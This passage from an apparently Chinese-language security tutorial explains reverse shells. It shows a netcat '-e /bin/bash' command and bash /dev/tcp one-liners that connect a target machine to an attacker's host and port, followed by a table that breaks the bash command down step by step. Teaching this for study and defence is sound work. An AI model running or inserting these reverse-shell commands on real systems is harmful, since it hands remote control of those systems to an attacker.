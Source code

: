 **目标机主动连接攻击机：**

```
netcat 47.xxx.xxx.72 2333 -e /bin/bash
# nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
```

执行效果如下：

[![img](images/20210423205828-9929e0ec-a433-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210423205828-9929e0ec-a433-1.png)

## 利用Bash反弹shell

个人感觉反弹shell最好用的方法就是使用bash结合重定向方法的一句话，具体命令如下：

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
或
bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"
# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1
```

> 以下是针对Bash反弹一句话进行了拆分说明：
>
> | 命令                        | 命令详解                                                     |
> | --------------------------- | ------------------------------------------------------------ |
> | bash -i                     | 产生一个bash交互环境。                                       |
> | >&                          | 将联合符号前面的内容与后面相结合，然后一起重定向给后者。     |
> | /dev/tcp/47.xxx.xxx.72/2333 | Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。 |
> | 0>&1                        | 将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。 |
>
> Bash反弹一句完整的解读过程就是：
>
> Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。
